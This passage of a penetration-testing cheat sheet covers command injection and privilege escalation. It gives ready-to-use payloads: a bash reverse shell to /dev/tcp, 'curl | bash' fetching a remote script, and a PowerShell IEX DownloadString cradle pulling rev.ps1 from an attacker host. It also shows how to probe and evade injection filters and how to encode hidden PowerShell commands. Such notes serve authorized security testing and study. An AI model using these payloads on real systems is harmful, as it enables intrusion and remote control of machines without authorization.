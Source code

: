 2. You have access to host already, 
    but you need to priv esc as someone else via an internal running application
    
    Except the above PoC technique, you can use the following payload:
    ```
    echo "pwn3d" > /tmp/pwn
    ```
    A valid respond should be a new file is created at /tmp named pwn. 
    Also check the file permission and ownership with `ls -la` to see if 
    the file is owned the by process owner

### Execute reverse shell payload alternative
If you can't execute the reverse shell payload directly 
(maybe some sort of fiilters or firewall rules exist and preventing command injection payload),
try saving you payload into a script file and serving your payload through a http server. 
An example payload `rev.sh` will be like
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
Then on the server side, use `curl http://IP/rev.sh | bash` 
or similar tool as your injection payload.

### Command injection payload with firewall evasion
Sometimes an application might have firewall or defences in-place as a filter,
it means some special characters might be blocked.
Common command injection special characters are `;"|'&$`

If you found that an application consist of a firewall/defence,
try and see which characters are banned and which are not.
Sometimes it allows `'` but not `"`, vice versa.
Sometimes it allows `;` but not `|`, vice versa.

To test the banned characters, you can try changing the `'` in your 
original payload to `"` and see if it can get through the filter.
This can also apply to all special characters.
Let's say if `;` is blocked, then you may try `|`, `||`, `&&`, etc.

### Starting a windows conptyshell in background (can use it via a web shell to call conptyshell directly)
```cmd
start /B powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://KALI_IP/rev.ps1')"
```

### upgrade linux simple shell to tty shell without python
```bash
script -qc /bin/bash /dev/null 
```

### Python script to create a reverse shell payload
```python
import sys
import base64

payload = 'YOUR_PAYLOAD'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

